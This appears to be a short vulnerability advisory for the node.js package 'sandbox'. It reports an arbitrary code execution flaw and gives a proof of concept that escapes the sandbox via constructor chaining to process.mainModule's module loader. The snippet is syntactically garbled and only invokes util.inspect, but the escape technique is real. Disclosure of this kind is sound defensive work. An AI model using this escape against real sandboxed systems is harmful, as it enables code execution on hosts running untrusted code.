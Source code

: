 # Overview
`sandbox` is a nifty javascript sandbox for node.js.

This package arise vulnerable to Arbitrary Code Execution, it is possible to escape the sandbox by using a combination of functions and constructors, allowing an attacker to potentially access a process with root permissions and load modules of their choice in order to execute code.

# Proof of Concept
```
new Function("
  return (
    this.constructor.constructor('
      return (this.process.mainModule.constructor._load
     )'
    )())"
  )()
("util").inspect("hi")
```